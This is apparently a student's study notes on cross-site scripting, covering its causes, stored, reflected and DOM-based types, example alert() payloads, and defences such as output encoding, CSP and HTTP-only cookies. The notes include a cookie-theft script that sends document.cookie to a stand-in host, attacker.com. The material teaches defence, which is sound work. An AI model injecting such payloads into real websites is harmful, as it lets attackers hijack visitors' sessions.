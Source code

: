 - web security vulnerability that allows an attacker to inject malicious scripts into trusted websites
- Type of injection
- exploits trust b/w browser and server
# Why Does XSS Happen?
- Lack of input validation and output sanitization
	- i.e. if we are expecting an integer, don't trust that user will always enter an integer, must validate it first
- Dynamic generation of HTML content without proper safeguards
	- i.e. php
- Trust in user input as "safe"
	- NEVER TRUST THE USERS
	- even if it is an internal tool or something that's not widely used, if there's **anything** sensitive then you can't trust the users.
# Types of XSS

| Type          | Desc                                                                   | Notes                                                                                                                                                                                                                                                |
| ------------- | ---------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Stored XSS    | Malicious payload is **stored** on the server (e.g. in a database)     | This is the worst type because it persists. An attacker can get their malicious script in your database so that you serve it from your website. Affects everyone that visits your website                                                            |
| Reflected XSS | Malicious payload is **reflected** off a web application to the victim | Your website is not storing the script, but you have a url that is not authenticated. Your website is basically a trampoline to the malicious script. Less impactful since only that specific url is the malicious one, other users aren't affected. |
| DOM-Based XSS | Vulnerability exists in the **client-side** script                     | Hardest to find, exploit, but most valuable from bounty. Don't exploit the website, exploit the user accessing the website. No other details given in class                                                                                          |

# Examples
- Stored XSS
	- A comment field on a blog allows users to post messages
	- An attacker submits the comment `<script> alert('XSS!'); </script>`
	- The script is stored in the database and executed by every user who views the comment
		- **note**: whenever we actually have something malicious in the script tag, `alert` is the common benign one to show that it's vulnerable
- Reflected XSS
	- A search form dynamically displays user input in the response
	- The attacker crafts a malicious url
	- The malicious script is reflected in the server's response
		- `http://example.com/search?q=<script>alert('XSS')</script>`
- DOM-Based XSS
	- Vulnerability exists in client side javascript
	- i.e. in client side javascript

```js
var query = window.location.\$search;
document.getElementById('output').innerHTML = query;
```

- attacker provides `http://example.com?<script>alert('XSS')</script>`
- The script is executed by the browser
- If this client side is part of a framework i.e. wordpress then you can find these vulnerable websites by using [[Google Dorks]] to find websites built with that framework.

# How to Exploit
- **Stealing cookies** - Access session cookies to hijack user sessions
- **Keylogging** - Inject scripts to log user keystrokes
- **Phishing** - Redirect users to malicious sites
- **Defacement** - Modify website content to mislead users

# Cookie Theft Example
- Inject script
```html
<script>
var img = newImage();
img.src = 'http://attacker.com/cookie=' + document.cookie;
</script>
```
- cookies are sent to attacker.com
# Mitigation
- Practices
	- **Input Validation**: Validate all user inputs on both client and server
	- **Output Encoding**: Encode outputs to prevent script execution
		- i.e. don't output raw data and don't ingest raw data from users
- Technology/Configuration
	- **Content Securitiy Policy (CSP)**: Restrict sources of executable scripts
	- **Use HTTP-Only Cookies**: Prevent access to cookies via javascript
# Mitigation Example: Output Encoding
- Use functions to encode user input before rendering
```html
<p>$escapeHtml(userInput)</p>
```

```javascript
function escapeHtml(input) {
	return input.replace(/\&/g, '\&amp;')
				.replace(/</g, '\&lt;')
				.replace(/>/g, '\&gt;');
}
```

#OWASP #Injection